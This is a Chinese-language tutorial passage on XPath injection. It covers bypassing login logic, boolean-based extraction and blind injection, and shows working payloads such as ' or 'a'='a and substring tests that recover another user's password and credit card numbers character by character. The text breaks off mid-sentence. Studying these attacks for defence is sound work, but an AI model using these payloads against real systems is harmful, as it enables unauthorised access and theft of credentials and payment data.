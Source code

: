 # 1.Subverting Application Logic

考虑一个应用程序功能，该功能可以根据用户名和密码来检索用户存储的信用卡号。 以下XPath查询可有效验证用户提供的凭据并检索相关用户的信用卡号：
```
//address[surname/text()='Dawes' and password/text()='secret']/ccard/text()
```
在这种情况下，攻击者可能能够以与SQL注入流相同的方式来破坏应用程序的查询。 例如，提供具有以下值的密码：
```
' or 'a'='a
```
导致以下XPath查询，该查询检索所有用户的信用卡详细信息：
```
//address[surname/text()='Dawes' and password/text()='' or 'a'='a']/ccard/text()
```
**NOTE**
- 与SQL注入一样，注入数字值时不需要单引号。
- 与SQL查询不同，XPath查询中的关键字区分大小写，XML文档本身中的元素名称也区分大小写。

# 2.Informed XPath Injection

可以利用XPath注入漏洞从目标XML文档中检索任意信息。 一种可靠的方式使用与SQL注入中所述相同的技术，以使应用程序以不同的方式响应，具体取决于攻击者指定的条件.

提交以下两个密码将导致应用程序行为不同。 在第一种情况下返回结果，但在第二种情况下不返回：
```
' or 1=1 and 'a'='a
' or 1=2 and 'a'='a
```
可以利用这种行为上的差异来测试任何指定条件的真实性，因此可以一次提取一个字节的任意信息。 与SQL一样，XPath语言包含一个子字符串函数，该函数可用于一次测试一个字符的字符串值。 例如，提供此密码：
```
' or //address[surname/text()='Gates' and substring(password/text(),1,1)='M'] and 'a'='a
```
返回以下XPath查询，如果Gates用户密码的第一个字符为M，则返回查询结果：
```
//address[surname/text()='Dawes' and password/text()='' or
//address[surname/text()='Gates' and substring(password/text(),1,1)= 'M']
and 'a'='a ']/ccard/text()
```
通过循环遍历每个角色的位置并测试每个可能的值，攻击者可以提取盖茨密码的全部值。

# 3.Blind XPath Injection

在刚刚描述的攻击中，注入的测试条件既指定了提取数据的绝对路径（地址），又指定了目标字段的名称（姓氏和密码）。 实际上，有可能在不拥有此信息的情况下发起完全盲目的攻击。 XPath查询可以包含相对于XML文档中当前节点的步骤，因此可以从当前节点导航到父节点或特定的子节点。 此外，XPath包含用于查询有关文档的元信息的功能，包括特定元素的名称。 使用这些技术，可以提取文档中所有节点的名称和值，而无需了解有关其结构或内容的任何先验信息。

例如，您可以使用前面介绍的子字符串技术，通过提供以下形式的一系列密码来提取当前节点的父节点的名称：
```
' or substring(name(parent::*[position()=1]),1,1)= 'a
```
该输入生成结果，因为地址节点的第一个字母是a。 继续到第二个字母，您可以通过提供以下密码来确认这是正确的，最后一个密码将生成结果：
```
' or substring(name(parent::*[position()=1]),2,1)='a
' or substring(name(parent::*[position()=1]),2,1)='b
' or substring(name(parent::*[position()=1]),2,1)='c
' or substring(name(parent::*[position()=1]),2,1)='d
```
建立地址节点的名称后，您可以循环浏览其每个子节点，提取其所有名称和值。 通过索引指定相关的子节点避免了知道任何节点名称的需要。 例如，以下查询返回值Hunter:
```
//address[position()=3]/child::node()[position()=4]/text()
```
然后以下查询返回值letmein：
```
//address[position()=3]/child::node()[position()=6]/text()
```
通过精心设计一个通过索引指定目标节点的注入条件，该技术可用于完全盲目的攻击中，在该响应中应用程序的响应中不会返回任何结果。 例如，如果盖茨的密码的第一个字符为M，则提供以下密码将返回结果